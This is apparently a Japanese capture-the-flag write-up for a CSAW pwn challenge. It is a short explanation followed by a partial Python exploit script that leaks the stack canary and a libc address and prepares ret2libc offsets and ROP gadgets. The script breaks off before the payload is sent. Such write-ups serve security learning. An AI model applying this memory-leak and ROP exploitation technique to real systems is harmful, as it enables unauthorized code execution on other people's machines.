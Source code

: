 1でlibc内のアドレスが降ってきて, libc_base計算出来る.

ただしcanaryをバイパスしないといけないが, 2で余分にwrite()してるのでcanaryまで降ってくる.

あとは, やるだけだがずっとreverse-shellを張ろうとしていて時間溶けすぎた.

諦めてdup2でshell取った.


```python
from No___Op import *

if len(sys.argv) < 2:
	target = 'localhost:11111'
	
	offset = {
		'__libc_start_main': 0x21e50,
		'system': 0x46590,
		'/bin/sh': 0x17c8c3, # str
		'pop_rsi': 0x00164de6,
		'pop_rdi': 0x00165a1f # pop rdi ; ret  ;
	}

else:
	target = 'pwn.chal.csaw.io:8002'

	offset = {
    		'__libc_start_main': 0x21e50,
    		'system': 0x46590,
    		'/bin/sh': 0x17c8c3, # str
		'pop_rsi': 0x00164de6,
		'pop_rdi': 0x00165a1f
	}

c = Pwning( target )

c.read_until('>')
c.sendall('2')
c.read_until('>')
c.sendall('aaaa')
c.read_until('aaaa\x0a')

c.recv(3)
for i in range(38):
	c.recv(8)

canary = u64(c.recv(8))
stack = 0x00007fff00000000 + u32(c.recv(4))
addr_buf = stack - 0x170


succ('Canary found: ' + hex(canary))

def func1():
	c.read_until('>')
	c.sendall('1')
	c.read_until('Reference:0x')
	return c.recv(12)

def func2():
	c.read_until('>')
	c.sendall('2')
	c.read_until('>')

addr_IO_proc_open = int(func1(), 16)

```